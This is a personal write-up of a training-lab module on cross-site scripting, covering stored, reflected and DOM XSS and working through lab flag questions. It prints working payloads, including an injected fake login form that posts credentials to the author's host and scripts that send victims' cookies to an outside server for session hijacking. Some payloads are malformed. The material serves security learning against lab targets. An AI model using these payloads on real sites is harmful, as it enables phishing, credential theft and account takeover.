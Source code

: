 # Cross-site scripting (XSS)

## XSS Basics

XSS vulnerabilities are solely executed on the client-side and hence do not directly affect the back-end server. They can only affect the user executing the vulnerability. The direct impact of XSS vulnerabilities on the back-end server may be relatively low, but they are very commonly found in web applications, so this equates to a medium risk (low impact + high probability = medium risk), which we should always attempt to reduce risk by detecting, remediating, and proactively preventing these types of vulnerabilities.

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

### Stored XSS

If our injected XSS payload gets stored in the back-end database and retrieved upon visiting the page, this means that our XSS attack is persistent and may affect any user that visits the page.

**To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

`alert(document.cookie)<script>`

### Reflected XSS

Processed entirely at the back-end of the server. Not persistent as they disappear after a page refresh. Reaches the back-end server and returns to us unfiltered and unsanitised… oh the fun we can have!

**Same task, it’s just that this doesn’t persist:**

`alert(document.cookie)<script/>`

### DOM XSS

Processed completely client-side and non-persistent (disappears after a page refresh).

This type of vulnerability exists when you can use Javascript code to alter a Document Object Model (DOM). To truly understand DOM attacks let’s talk about source and sink…

**Same as above just with DOM…**

`<img src="" onerror=alert(document.cookie)>`

### XSS Discovery

Automated Discovery

<figure><img src=".gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

`python xsstrike.py -u “http://SERVER_IP:PORT/index.php?task=test"`

Manual Discovery — XSS Payloads

Long story short, I might need to do some more python classes at some point. Python scripts would make this a hell of a lot more useful later on in my XSS seeking endeavours.

**Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter?**

<figure><img src=".gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

**What type of XSS vuln is it?**

Literally says “Reflections found” so your answer is “reflected”.

## XSS Attacks

### Phishing

Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

**Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.**

First we use XSStrike python script mentioned earlier to find a payload:

<figure><img src=".gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

`'><a/+/OnMOUSEoVER%09=%09[8].find(confirm)>v3dm0s`

Add it to make it a valid JavaScript piece of code with the login form from earlier:

`ifconfig`

* find your IP

```
‘><script>document.write(‘<h3>Please login to continue</h3><form action=http://10.10.14.63/><input type=”username” name=”username” placeholder=”Username”><input type=”password” name=”password” placeholder=”Password”><input type=”submit” name=”submit” value=”Login”></form>’);document.getElementById(‘urlform’).remove();</script><!--
```

**Crafted malicious final URL:**

{% embed url="http://10.129.85.225/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.14.63%2F%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E%3C%21--" %}

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

### admin:p1zd0nt57341myp455

go to URL: [http://10.129.85.225/phishing/login.php](http://10.129.85.225/phishing/login.php)

login to obtain FLAG

### Session Hijacking

**Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.**

URL: http://10.129.85.225/hijacking/index.php

<figure><img src=".gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

`"><script src=http://10.10.14.63:8080/></script>`

**4x**

<figure><img src=".gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

```
nano script.js
```

```
new Image().src='http://10.10.14.46/index.php?c='+document.cookie;
```

<figure><img src=".gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

login.php -> update cookie and login

<figure><img src=".gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

## Skills Assessment

**What is the value of the 'flag' cookie?**

{% embed url="http://10.129.219.0/assessment/" %}

<figure><img src=".gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

Go to Recent post

<figure><img src=".gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

`"><script src=http://10.10.14.63:8080/comment></script>`

`"><script src=http://10.10.14.63:8080/name></script>`

`"><script src=http://10.10.14.63:8080/url></script>`

<figure><img src=".gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

\=> VULn field is URL

```
nano script.js
```

```
new Image().src='http://10.10.14.63:8080/index.php?c='+document.cookie;
```



Write a script in the URL field

`<script src=http://10.10.14.63:8080/script.js></script>`

<figure><img src=".gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

